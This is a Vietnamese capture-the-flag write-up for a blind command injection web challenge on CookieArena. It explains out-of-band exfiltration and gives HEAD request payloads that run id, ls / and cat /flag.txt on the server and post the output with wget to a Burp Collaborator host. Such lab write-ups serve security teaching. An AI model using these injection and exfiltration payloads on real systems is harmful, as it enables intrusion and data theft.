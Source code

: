 https://battle.cookiearena.org/challenges/web/blind-command-injection 

- Một chút về in-band và out-band:
  
In-Band là thực thi truyền hay gửi gói tin trong cùng lớp mạng hệ thống. Ví dụ ta thực thi một gói tin trên một webshell thì gói tin đó sẽ được trả về trên cùng web đó.
Out-Of-Band là thực thi truyền gói tin ra bên ngoài do khi ta thực hiện câu lệnh trên webshell nhưng khi trả về cùng hệ thống thì ta không xem được nên ta cần truyền nó sang một server web khác mới xem được 

- Đầu tiên ta sử dụng method options thì thấy only 3 methods : get, head, options.
ta thử với head trước

![1](./image/1.png)

- Khi ta thử với whoami thì shell sẽ không thực thi nên ta sẽ sử dụng kĩ thuật OOB với curl và wget 

![1](./image/2.png)
lưu ý : cú pháp $()  trong lệnh shell dùng để thực thi một lệnh và dùng để thay thế kết quả đầu ra của lệnh đó 

- Payload: HEAD /?cmd=wget+--post-data+"$(id)"+http://fzi2pj9bazxoqdvgpj5xu1y1psvjjahy6.oastify.com HTTP/1.1

![1](./image/3.png)
![1](./image/4.png)

- Sử dụng burp collaborator nhân đưuọc kết quả trên có truyền về giờ  ta cần tìm cách truyền file flag về
payload để liệt kê danh sách các file, được kết quả sau
  - payload: HEAD /?cmd=wget+--post-data+"$(ls+/)"+http://fzi2pj9bazxoqdvgpj5xu1y1psvjjahy6.oastify.com HTTP/1.1

![1](./image/5.png)

- well ta thấy file flag.txt r =)))
thử tiếp với payload
    - payload: HEAD /?cmd=wget+--post-data+"$(cat+/flag.txt)"+http://fzi2pj9bazxoqdvgpj5xu1y1psvjjahy6.oastify.com HTTP/1.1

![1](./image/6.png)